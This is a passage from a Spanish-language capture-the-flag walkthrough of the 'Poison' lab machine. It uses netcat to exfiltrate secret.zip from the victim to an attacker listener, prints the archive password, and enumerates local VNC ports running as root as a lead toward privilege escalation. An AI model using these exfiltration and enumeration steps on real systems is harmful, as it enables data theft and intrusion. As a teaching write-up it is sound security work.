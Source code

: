 ```
# nc -nlvp 4444 > secret.zip
```

Nos `enviamos` el `archivo` desde la máquina víctima

```
charix@Poison:~ % nc -vn 10.10.16.35 4444 < secret.zip
```

Una vez recibido el archivo lo `descomprimimos`, la contraseña a usar es `Charix!2#4%6&8(0`

```
# unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
```

Si le hacemos un `cat` al `archivo` nos encontramos con esto

```
# cat secret                                    
───────┬────────────────────────────────────────────────────────────────────────────────
       │ File: secret
───────┼────────────────────────────────────────────────────────────────────────────────
   1   │ ��[|Ֆz!
───────┴────────────────────────────────────────────────────────────────────────────────
```

`Listamos puertos` en la máquina víctima, los puertos `5801` y `5901` son interesantes porque pertenecen al servicio `VNC` [https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc)
```
charix@Poison:~ % netstat -na -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.129.252.206.22      10.10.16.35.36790      ESTABLISHED
tcp4       0      0 10.129.252.206.17310   10.10.16.35.4444       ESTABLISHED
tcp4       0      0 10.129.252.206.80      10.10.16.35.38414      ESTABLISHED
tcp4       0      0 10.129.252.206.18527   10.10.16.35.4444       CLOSE_WAIT
tcp4       0      0 10.129.252.206.80      10.10.16.35.55736      CLOSE_WAIT
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Vemos que los `servicios` los está `corriendo` el usuario `root`

```
charix@Poison:~ % sockstat -4 | grep '5801\|5901'
root     Xvnc       614   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       614   3  tcp4   127.0.0.1:5801        *:*
```
